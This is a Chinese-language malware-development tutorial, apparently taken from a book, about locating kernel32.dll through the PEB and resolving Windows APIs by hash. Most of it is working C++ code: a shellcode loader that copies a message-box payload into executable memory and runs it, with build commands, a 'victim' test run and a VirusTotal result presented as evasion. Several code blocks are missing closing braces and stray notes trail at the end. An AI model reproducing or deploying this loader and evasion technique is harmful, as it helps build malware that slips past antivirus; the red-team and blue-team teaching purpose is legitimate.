






\newpage
\subsection{恶意软件开发技巧：以汇编方式查找 kernel32.dll 基址（C++ 示例）}

﷽

{width="80%"}

这一节是我自我研究真实世界恶意软件中一个有趣技巧的结果。

在我的一篇文章中，我写了如何使用 `GetModuleHandle`。它返回指定 DLL 的句柄。例如：

```cpp
#include <windows.h>

LPVOID (WINAPI * pVirtualAlloc)(
LPVOID lpAddress, SIZE_T dwSize, 
DWORD flAllocationType, DWORD flProtect);

//...

int main() {
  DWORD oldprotect = 0;

  HMODULE hk32 = GetModuleHandle("kernel32.dll");
  pVirtualAlloc = GetProcAddress(hk32, "VirtualAlloc");

  //...

  return 0;

```

那么，实际执行 shellcode 的方式大致是这样（`meow.cpp`）：

```cpp
#include <windows.h>

LPVOID (WINAPI * pVirtualAlloc)(
LPVOID lpAddress, SIZE_T dwSize, 
DWORD flAllocationType, DWORD flProtect);

unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";

int main() {
  HMODULE hk32 = GetModuleHandle("kernel32.dll");
  pVirtualAlloc = GetProcAddress(hk32, "VirtualAlloc");
  PVOID lb = pVirtualAlloc(0, sizeof(my_payload),
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
  memcpy(lb, my_payload, sizeof(my_payload));
  HANDLE th = CreateThread(0, 0, 
  (PTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
  WaitForSingleObject(th, -1);

```

所以这段代码包含了执行载荷的非常基础的逻辑。在这个例子中，为了简单起见，我们使用「meow-meow」消息框作为载荷。

我们来编译它：

```bash
x86_64-w64-mingw32-g++ meow.cpp -o meow.exe \
-mconsole -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-Wint-to-pointer-cast -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

然后运行：

{width="80%"}

我们用 `GetModuleHandle` 函数在内存中定位 `kernel32.dll`。可以通过在 PEB 中查找库的位置来绕过这一点。

### 汇编方式 :)

在之前的一节中，我写过 TEB 和 PEB 结构，并且用汇编找到了 kernel32。得到的是：

到达 InMemoryOrderModuleList 的偏移是 0x014

今天我将考虑 x64 架构。偏移是不同的：

PEB 地址位于一个相对于 GS 寄存器的地址处：GS:[0x60]

### 实战示例

那么：

```cpp
static HMODULE getKernel32(DWORD myHash) {
  HMODULE kernel32;
  INT_PTR peb = __readgsqword(0x60);
  auto modList = 0x18;
  auto modListFlink = 0x18;
  auto kernelBaseAddr = 0x10;

  auto mdllist = *(INT_PTR*)(peb + modList);
  auto mlink = *(INT_PTR*)(mdllist + modListFlink);
  auto krnbase = *(INT_PTR*)(mlink + kernelBaseAddr);
  auto mdl = (LDR_MODULE*)mlink;
  do {
  mdl = (LDR_MODULE*)mdl->e[0].Flink;
  if (mdl->base != nullptr) {
  if (calcMyHashBase(mdl) == myHash) { // kernel32.dll hash
  break;
  }
  }
  } while (mlink != (INT_PTR)mdl);

  kernel32 = (HMODULE)mdl->base;
  return kernel32;

```

然后，为了查找 `GetProcAddress` 和 `GetModuleHandle`，我用了自己文章里的 `getAPIAddr` 函数：

```cpp
static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = (PIMAGE_NT_HEADERS)(
  (LPBYTE)h + img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
  (LPBYTE)h + 
  img_nt_header->
  OptionalHeader.
  DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].
  VirtualAddress);
  PDWORD fAddr = (PDWORD)(
  (LPBYTE)h + img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)(
  (LPBYTE)h + img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)(
  (LPBYTE)h + img_edt->AddressOfNameOrdinals);

  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
  LPSTR pFuncName = (LPSTR)(
  (LPBYTE)h + fNames[i]);

  if (calcMyHash(pFuncName) == myHash) {
  printf("successfully found! %s - %d\n", 
  pFuncName, myHash);
  return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
  }
  }
  return nullptr;

```

相应地，`main()` 函数的逻辑是不同的：

```cpp
int main() {
  HMODULE mod = getKernel32(56369259);
  fnGetModuleHandleA myGetModuleHandleA = 
  (fnGetModuleHandleA)getAPIAddr(mod, 4038080516);
  fnGetProcAddress myGetProcAddress = 
  (fnGetProcAddress)getAPIAddr(mod, 448915681);

  HMODULE hk32 = myGetModuleHandleA("kernel32.dll");
  fnVirtualAlloc myVirtualAlloc = 
  (fnVirtualAlloc)myGetProcAddress(
  hk32, "VirtualAlloc");
  fnCreateThread myCreateThread = 
  (fnCreateThread)myGetProcAddress(
  hk32, "CreateThread");
  fnWaitForSingleObject myWaitForSingleObject = 
  (fnWaitForSingleObject)myGetProcAddress(
  hk32, "WaitForSingleObject");

  PVOID lb = myVirtualAlloc(0, sizeof(my_payload),
  MEM_COMMIT | MEM_RESERVE, 
  PAGE_EXECUTE_READWRITE);
  memcpy(lb, my_payload, sizeof(my_payload));
  HANDLE th = myCreateThread(NULL, 0, 
  (PTHREAD_START_ROUTINE)lb, NULL, 0, NULL);
  myWaitForSingleObject(th, INFINITE);

```

如你所见，我用了 Win32 API 调用按哈希查找的技巧。

那么完整源代码（`hack.cpp`）是：

```cpp
/*
 * hack.cpp - find kernel32 from PEB, 
 assembly style. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/04/02/malware-injection-18.html
*/
#include <windows.h>
#include <stdio.h>

typedef struct _UNICODE_STRING {
  USHORT Length;
  USHORT MaximumLength;
  PWSTR Buffer;
} UNICODE_STRING;

struct LDR_MODULE {
  LIST_ENTRY e[3];
  HMODULE base;
  void* entry;
  UINT size;
  UNICODE_STRING dllPath;
  UNICODE_STRING dllname;
};

typedef HMODULE(WINAPI *fnGetModuleHandleA)(
  LPCSTR lpModuleName
);

typedef FARPROC(WINAPI *fnGetProcAddress)(
  HMODULE hModule,
  LPCSTR  lpProcName
);

typedef PVOID(WINAPI *fnVirtualAlloc)(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);

typedef PVOID(WINAPI *fnCreateThread)(
  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  SIZE_T  dwStackSize,
  LPTHREAD_START_ROUTINE  lpStartAddress,
  LPVOID  lpParameter,
  DWORD  dwCreationFlags,
  LPDWORD  lpThreadId
);

typedef PVOID(WINAPI *fnWaitForSingleObject)(
  HANDLE hHandle,
  DWORD  dwMilliseconds
);

DWORD calcMyHash(char* data) {
  DWORD hash = 0x35;
  for (int i = 0; i < strlen(data); i++) {
  hash += data[i] + (hash << 1);
  }
  return hash;

static DWORD calcMyHashBase(LDR_MODULE* mdll) {
  char name[64];
  size_t i = 0;

  while (mdll->dllname.Buffer[i] && i < sizeof(name) - 1) {
  name[i] = (char)mdll->dllname.Buffer[i];
  i++;
  }
  name[i] = 0;
  return calcMyHash((char *)CharLowerA(name));

static HMODULE getKernel32(DWORD myHash) {
  HMODULE kernel32;
  INT_PTR peb = __readgsqword(0x60);
  auto modList = 0x18;
  auto modListFlink = 0x18;
  auto kernelBaseAddr = 0x10;

  auto mdllist = *(INT_PTR*)(peb + modList);
  auto mlink = *(INT_PTR*)(mdllist + modListFlink);
  auto krnbase = *(INT_PTR*)(mlink + kernelBaseAddr);
  auto mdl = (LDR_MODULE*)mlink;
  do {
  mdl = (LDR_MODULE*)mdl->e[0].Flink;
  if (mdl->base != nullptr) {
  if (calcMyHashBase(mdl) == myHash) { // kernel32.dll hash
  break;
  }
  }
  } while (mlink != (INT_PTR)mdl);

  kernel32 = (HMODULE)mdl->base;
  return kernel32;

static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = 
  (PIMAGE_NT_HEADERS)(
  (LPBYTE)h + img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
  (LPBYTE)h + 
  img_nt_header->
  OptionalHeader.
  DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].
  VirtualAddress);
  PDWORD fAddr = (PDWORD)(
  (LPBYTE)h + img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)(
  (LPBYTE)h + img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)(
  (LPBYTE)h + img_edt->AddressOfNameOrdinals);

  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
  LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

  if (calcMyHash(pFuncName) == myHash) {
  printf("successfully found! %s - %d\n", 
  pFuncName, myHash);
  return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
  }
  }
  return nullptr;

unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";

int main() {
  HMODULE mod = getKernel32(56369259);
  fnGetModuleHandleA myGetModuleHandleA = 
  (fnGetModuleHandleA)getAPIAddr(mod, 4038080516);
  fnGetProcAddress myGetProcAddress = 
  (fnGetProcAddress)getAPIAddr(mod, 448915681);

  HMODULE hk32 = myGetModuleHandleA("kernel32.dll");
  fnVirtualAlloc myVirtualAlloc = 
  (fnVirtualAlloc)myGetProcAddress(
  hk32, "VirtualAlloc");
  fnCreateThread myCreateThread = 
  (fnCreateThread)myGetProcAddress(
  hk32, "CreateThread");
  fnWaitForSingleObject myWaitForSingleObject = 
  (fnWaitForSingleObject)myGetProcAddress(
  hk32, "WaitForSingleObject");

  PVOID lb = myVirtualAlloc(0, sizeof(my_payload),
  MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  memcpy(lb, my_payload, sizeof(my_payload));
  HANDLE th = myCreateThread(NULL, 0, 
  (PTHREAD_START_ROUTINE)lb, NULL, 0, NULL);
  myWaitForSingleObject(th, INFINITE);

```

如你所见，我用了同样的哈希算法。

### 演示

我们来编译它：

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

然后运行（在受害者的 Windows 10 x64 机器上）：

```cmd
.\hack.exe
```

{width="80%"}

我们可以看到一切都完美工作了 :)

我们把它上传到 VirusTotal：

{width="80%"}

<https://www.virustotal.com/gui/file/0f5204336b3250fe2756b0a675013099be58f99a522e3e14161c1709275ec2d5/detection>

所以 69 个 AV 引擎中有 6 个把我们的文件检测为恶意。

这个技巧可以让对我们恶意软件的静态分析稍微变得困难一些，主要集中在 PE 格式和常见指标上。

我在 Conti 勒索软件的源代码中见过这个技巧。

我希望这一节能让蓝队意识到这项有趣的技术，同时为红队的武器库增添一件武器。

[PEB structure](https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb)  
[TEB structure](https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-teb)  
[PEB_LDR_DATA structure](https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb_ldr_data)  
[GetModuleHandleA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea)  
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)  
[windows shellcoding - part 1](https://cocomelonc.github.io/tutorial/2021/10/27/windows-shellcoding-1.html)  
[windows shellcoding - find kernel32](https://cocomelonc.github.io/tutorial/2021/10/30/windows-shellcoding-2.html)  
[Conti ransomware source code](/investigation/2022/03/27/malw-inv-conti-1.html)  
[source code in Github](https://github.com/cocomelonc/2022-04-02-malware-injection-18)

到达 PEB 结构的偏移是 0x030

PEB 内部到达 LDR 的偏移是 0x00c

第 1 个加载的模块是我们的 .exe

第 2 个加载的模块是 ntdll.dll

第 3 个加载的模块是 kernel32.dll

第 4 个加载的模块是 kernelbase.dll

PEB 内部到达 LDR 的偏移是 0x18

kernel32.dll 的基址在 0x10
